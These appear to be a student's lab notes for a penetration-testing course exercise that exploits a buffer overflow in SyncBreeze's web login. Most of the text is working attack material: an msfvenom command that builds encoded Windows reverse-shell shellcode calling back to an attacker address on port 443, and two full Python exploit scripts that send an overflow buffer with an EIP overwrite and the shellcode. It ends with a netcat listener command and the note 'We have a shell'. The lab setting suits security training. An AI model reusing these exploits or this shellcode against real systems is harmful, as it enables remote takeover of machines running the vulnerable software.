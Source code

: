 11.2.9.1

# 11.2.9.1
## 11.2.9.1.1. Update your PoC to include a working payload.

Run msfvenom to create shellcode
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`
![3ea25ba718e8acd49725d4d47c0c9381.png](../../../_resources/c703c395a5694f1b8c419712eefcdb07.png)


## 11.2.9.1.2. Attempt to execute your exploit without using a NOP sled and observe the decoder corrupting the stack.

Here is the code with shellcode but **no NOPs**
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 9_add_shellcode_no_nops.py 
#!/usr/bin/python
import socket
import sys

shellcode = ("\xbe\xdc\x5a\x2f\xc5\xda\xde\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
"\x52\x31\x72\x12\x03\x72\x12\x83\x1e\x5e\xcd\x30\x62\xb7\x93"
"\xbb\x9a\x48\xf4\x32\x7f\x79\x34\x20\xf4\x2a\x84\x22\x58\xc7"
"\x6f\x66\x48\x5c\x1d\xaf\x7f\xd5\xa8\x89\x4e\xe6\x81\xea\xd1"
"\x64\xd8\x3e\x31\x54\x13\x33\x30\x91\x4e\xbe\x60\x4a\x04\x6d"
"\x94\xff\x50\xae\x1f\xb3\x75\xb6\xfc\x04\x77\x97\x53\x1e\x2e"
"\x37\x52\xf3\x5a\x7e\x4c\x10\x66\xc8\xe7\xe2\x1c\xcb\x21\x3b"
"\xdc\x60\x0c\xf3\x2f\x78\x49\x34\xd0\x0f\xa3\x46\x6d\x08\x70"
"\x34\xa9\x9d\x62\x9e\x3a\x05\x4e\x1e\xee\xd0\x05\x2c\x5b\x96"
"\x41\x31\x5a\x7b\xfa\x4d\xd7\x7a\x2c\xc4\xa3\x58\xe8\x8c\x70"
"\xc0\xa9\x68\xd6\xfd\xa9\xd2\x87\x5b\xa2\xff\xdc\xd1\xe9\x97"
"\x11\xd8\x11\x68\x3e\x6b\x62\x5a\xe1\xc7\xec\xd6\x6a\xce\xeb"
"\x19\x41\xb6\x63\xe4\x6a\xc7\xaa\x23\x3e\x97\xc4\x82\x3f\x7c"
"\x14\x2a\xea\xd3\x44\x84\x45\x94\x34\x64\x36\x7c\x5e\x6b\x69"
"\x9c\x61\xa1\x02\x37\x98\x22\xed\x60\xd5\x64\x85\x72\x19\x88"
"\xed\xfa\xff\xe0\x01\xab\xa8\x9c\xb8\xf6\x22\x3c\x44\x2d\x4f"
"\x7e\xce\xc2\xb0\x31\x27\xae\xa2\xa6\xc7\xe5\x98\x61\xd7\xd3"
"\xb4\xee\x4a\xb8\x44\x78\x77\x17\x13\x2d\x49\x6e\xf1\xc3\xf0"
"\xd8\xe7\x19\x64\x22\xa3\xc5\x55\xad\x2a\x8b\xe2\x89\x3c\x55"
"\xea\x95\x68\x09\xbd\x43\xc6\xef\x17\x22\xb0\xb9\xc4\xec\x54"
"\x3f\x27\x2f\x22\x40\x62\xd9\xca\xf1\xdb\x9c\xf5\x3e\x8c\x28"
"\x8e\x22\x2c\xd6\x45\xe7\x5c\x9d\xc7\x4e\xf5\x78\x92\xd2\x98"
"\x7a\x49\x10\xa5\xf8\x7b\xe9\x52\xe0\x0e\xec\x1f\xa6\xe3\x9c"
"\x30\x43\x03\x32\x30\x46")

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "\x83\x0c\x09\x10"
    offset = "C" * 4
    
    inputBuffer = filler + eip + offset + shellcode
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()
```

The crash
![60ad439955284f28074d76d2089d8714.png](../../../_resources/541eb6a9dacb4d05af305564520c360b.png)


## 11.2.9.1.3. Add a NOP sled to your PoC and obtain a shell from SyncBreeze.
Here is the code with a NOP sled
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/bufferOverflow/win/syncbreeze$ cat 9_add_shellcode_yes_nops.py 
#!/usr/bin/python
import socket
import sys

# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
shellcode = ("\xbe\xdc\x5a\x2f\xc5\xda\xde\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
"\x52\x31\x72\x12\x03\x72\x12\x83\x1e\x5e\xcd\x30\x62\xb7\x93"
"\xbb\x9a\x48\xf4\x32\x7f\x79\x34\x20\xf4\x2a\x84\x22\x58\xc7"
"\x6f\x66\x48\x5c\x1d\xaf\x7f\xd5\xa8\x89\x4e\xe6\x81\xea\xd1"
"\x64\xd8\x3e\x31\x54\x13\x33\x30\x91\x4e\xbe\x60\x4a\x04\x6d"
"\x94\xff\x50\xae\x1f\xb3\x75\xb6\xfc\x04\x77\x97\x53\x1e\x2e"
"\x37\x52\xf3\x5a\x7e\x4c\x10\x66\xc8\xe7\xe2\x1c\xcb\x21\x3b"
"\xdc\x60\x0c\xf3\x2f\x78\x49\x34\xd0\x0f\xa3\x46\x6d\x08\x70"
"\x34\xa9\x9d\x62\x9e\x3a\x05\x4e\x1e\xee\xd0\x05\x2c\x5b\x96"
"\x41\x31\x5a\x7b\xfa\x4d\xd7\x7a\x2c\xc4\xa3\x58\xe8\x8c\x70"
"\xc0\xa9\x68\xd6\xfd\xa9\xd2\x87\x5b\xa2\xff\xdc\xd1\xe9\x97"
"\x11\xd8\x11\x68\x3e\x6b\x62\x5a\xe1\xc7\xec\xd6\x6a\xce\xeb"
"\x19\x41\xb6\x63\xe4\x6a\xc7\xaa\x23\x3e\x97\xc4\x82\x3f\x7c"
"\x14\x2a\xea\xd3\x44\x84\x45\x94\x34\x64\x36\x7c\x5e\x6b\x69"
"\x9c\x61\xa1\x02\x37\x98\x22\xed\x60\xd5\x64\x85\x72\x19\x88"
"\xed\xfa\xff\xe0\x01\xab\xa8\x9c\xb8\xf6\x22\x3c\x44\x2d\x4f"
"\x7e\xce\xc2\xb0\x31\x27\xae\xa2\xa6\xc7\xe5\x98\x61\xd7\xd3"
"\xb4\xee\x4a\xb8\x44\x78\x77\x17\x13\x2d\x49\x6e\xf1\xc3\xf0"
"\xd8\xe7\x19\x64\x22\xa3\xc5\x55\xad\x2a\x8b\xe2\x89\x3c\x55"
"\xea\x95\x68\x09\xbd\x43\xc6\xef\x17\x22\xb0\xb9\xc4\xec\x54"
"\x3f\x27\x2f\x22\x40\x62\xd9\xca\xf1\xdb\x9c\xf5\x3e\x8c\x28"
"\x8e\x22\x2c\xd6\x45\xe7\x5c\x9d\xc7\x4e\xf5\x78\x92\xd2\x98"
"\x7a\x49\x10\xa5\xf8\x7b\xe9\x52\xe0\x0e\xec\x1f\xa6\xe3\x9c"
"\x30\x43\x03\x32\x30\x46")

try:
    print "\nSending evil buffer..."

    filler = "A" * 780
    eip = "\x83\x0c\x09\x10"
    offset = "C" * 4
    nops = "\x90" * 10
    
    inputBuffer = filler + eip + offset + nops + shellcode
    
    content = "username=" + inputBuffer + "&password=A"
    
    buffer = "POST /login HTTP/1.1\r\n"
    buffer += "Host: 192.168.214.10\r\n"
    buffer += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0\r\n"
    buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
    buffer += "Accept-Language: en-US,en;q=0.5\r\n"
    buffer += "Accept-Encoding: gzip, deflate\r\n"
    buffer += "Referer: http://192.168.214.10/login\r\n"
    buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
    buffer += "Content-Length: "+str(len(content))+"\r\n"
    buffer += "DNT: 1\r\n"
    buffer += "Connection: keep-alive\r\n"
    buffer += "Upgrade-Insecure-Requests: 1\r\n"
    buffer += "\r\n"
    
    buffer += content
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect(("192.168.214.10", 80))
    s.send(buffer)

    s.close()
    print "\nDone!"

except:
    print "Could not connect!"
    sys.exit()

```

Start a Netcat listener on port 443
`sudo nc -lvnp 443`
![71ce9ac346d85914267035b83cdad59b.png](../../../_resources/0f15f5eca537419dac928d0380d6bc94.png)

We have a shell
![409dec5c92efac016f59fd3835f411db.png](../../../_resources/b9326bf718244ffab9a736851b2dc21a.png)